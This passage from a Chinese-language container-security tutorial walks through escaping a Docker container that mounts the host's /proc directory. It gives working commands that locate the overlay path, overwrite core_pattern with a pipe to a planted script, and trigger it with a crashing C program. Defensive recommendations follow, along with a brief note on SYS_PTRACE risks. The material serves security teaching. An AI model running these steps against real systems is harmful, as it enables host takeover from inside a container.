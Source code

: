 -   避免将Docker socket挂载到容器中
-   如必须挂载，考虑使用Docker授权插件限制API访问
-   监控Docker API调用，检测异常行为
-   考虑使用podman、containerd等替代方案，它们提供更细粒度的权限控制

### 5.4.2 攻击挂载了主机 /proc 目录的容器

另一个比较有趣的场景就是挂载了主机 /proc 目录的容器，在历史的攻防演练中当我们遇到挂载了主机 /proc 目录的容器，一般都会有其它可以逃逸的特性，如 sys\_ptrace 或者 sys\_admin 等，但是其实挂载了主机 /proc 目录这个设置本身，就是一个可以逃逸在宿主机执行命令的特性。

我们可以简单的执行以下命令创建一个具有该配置的容器并获得其 shell：

docker run -v /proc:/host\_proc --rm -it ubuntu bash

这里逃逸并在外部执行命令的方式主要是利用了 linux 的 /proc/sys/kernel/core\_pattern 文件。

a. 首先我们需要利用在 release\_agent 中提及的方法从 mount 信息中找出宿主机内对应当前容器内部文件结构的路径。

sed -n 's/.\*\\perdir=\\(\[^,\]\*\\).\*/\\1/p' /etc/mtab

b. 此时我们在容器内的 /exp.sh 就对应了宿主机的 `/var/lib/docker/overlay2/a1a1e60a9967d6497f22f5df21b185708403e2af22eab44cfc2de05ff8ae115f/diff/exp.sh` 文件。

c. 因为宿主机内的 /proc 文件被挂载到了容器内的 /host\_proc 目录，所以我们修改 /host\_proc/sys/kernel/core\_pattern 文件以达到修改宿主机 /proc/sys/kernel/core\_pattern 的目的。

echo -e "|/var/lib/docker/overlay2/a1a1e60a9967d6497f22f5df21b185708403e2af22eab44cfc2de05ff8ae115f/diff/exp.sh \\rcore" \> /host\_proc/sys/kernel/core\_pattern

d. 此时我们还需要一个程序在容器里执行并触发 segmentation fault 使植入的 payload 即 exp.sh 在宿主机执行。

这里我们参考了 https://wohin.me/rong-qi-tao-yi-gong-fang-xi-lie-yi-tao-yi-ji-zhu-gai-lan/#4-2-procfs- 里的 c 语言代码和 CDK-TEAM/CDK 里面的 GO 语言代码：

#include <stdio.h>
int main(void) {
    int \*a \= NULL;
    \*a \= 1;
    return 0;
}

e. 当然不能忘记给 exp.sh 赋予可执行权限。

当容器内的 segmentation fault 被触发时，我们就达到了逃逸到宿主机在容器外执行任意代码的目的。

**防御建议**：

-   避免将宿主机的/proc目录挂载到容器中
-   如必须挂载，使用只读挂载并考虑使用ProcMount字段限制访问
-   监控对core\_pattern等敏感文件的修改
-   使用seccomp过滤器限制容器内的系统调用

### 5.5. SYS\_PTRACE 安全风险

当 docker 容器设置 --cap-add=SYS\_PTRACE 或 Kubernetes PODS 设置 securityContext.capabilities 为 SYS\_PTRACE 配置等把 SYS\_PTRACE capabilities 权限赋予容器的情况，如果该容器也具备 hostpid 配置，那就可能导致容器逃逸。

可导致容器逃逸风险的 capabilities 权限还有很多，这里就不一一介绍啦。
